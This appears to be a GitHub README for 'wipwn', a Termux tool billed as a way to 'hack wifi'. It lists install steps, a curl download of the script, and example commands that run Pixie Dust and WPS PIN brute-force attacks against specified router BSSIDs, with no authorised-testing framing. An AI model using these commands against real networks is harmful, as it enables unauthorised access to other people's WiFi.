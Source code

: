 # wipwn
Hack wifi using termux (rooted)

## <a href = "https://t.me/cybersh_official/127" > Tutorial</a>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/ShTasrif/wipwn
pip install requests termcolor
cd wipwn
chmod +x wipwn.py
```
### Single cmd Setup
```bash
curl https://raw.githubusercontent.com/ShTasrif/wipwn/main/wipwn --output /data/data/com.termux/files/usr/bin/wipwn
chmod +x /data/data/com.termux/files/usr/bin/wipwn
```
#### Help : `sudo python wipwn.py --help`
#### Example : `sudo python wipwn.py -i wlan0 -K`
### Shortcut : wipwn
```bash
cd $PREFIX/bin && echo 'cd $HOME ; cd wipwn ; sudo python wipwn.py -i wlan0 -K' > wipwn && chmod +x wipwn
```
#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
#### Modify History : 
rofl0r => SH TASRIF (CYBER SH)
<br>
<h3>Visitors :</h3>
<br>
<img src="https://profile-counter.glitch.me/ShTasrif/count.svg" alt="Visitors">

<div align="center">

<h3>━━━━ Connect with me ━━━━</h3>

<a href="https://fb.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="TOXIC-VIRUS" height="30" width="40" /></a>
<a href="https://twitter.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/twitter.svg" alt="cybershbd" height="30" width="40" /></a>
<a href="https://fb.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Mohammad Alamin" height="30" width="40" /></a>
<a href="https://instagram.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="akxvau" height="30" width="40" /></a>

</div>
